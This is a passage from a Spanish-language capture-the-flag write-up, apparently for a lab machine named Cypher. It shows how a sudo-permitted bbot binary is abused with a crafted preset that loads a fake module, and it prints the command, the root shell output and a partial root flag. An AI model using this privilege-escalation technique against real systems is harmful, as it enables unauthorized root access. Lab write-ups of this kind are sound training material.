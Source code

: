 El archivo `preset.yml` luce más o menos de la siguiente manera

~~~ bash
description: System Info Recon Scan
module_dirs:
  - .
modules:
  - launch_shell
~~~

En este caso se ejecutará una `bash` como el usuario propietario del binario (que es `root`)


## Root Time

Ejecutaremos el siguiente comando para cargar el módulo falso y ejecutar 

~~~ bash
graphasm@cypher:/tmp/privesc/privesc$ sudo /usr/local/bin/bbot -t dummy.com -p ./preset.yml --event-types ROOT

  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 1 targets (1 in whitelist)
[INFO] Loaded 1/1 scan modules (systeminfo_enum)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[SUCC] systeminfo_enum: 📡 systeminfo_enum setup called — launching shell!
                                                                          root@cypher:/tmp/privesc/10.10.14.187# id
                                                                          uid=0(root) gid=0(root) groups=0(root)
~~~

Ya podremos ver la última flag del sistema ubicada en el directorio `/root`

~~~ bash
root@cypher:/tmp/privesc/10.10.14.187# cat /root/root.txt 
283...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

>  In a controversy the instant we feel anger we have already ceased striving for the truth, and have begun striving for ourselves.
> — Buddha
{: .notice--info}

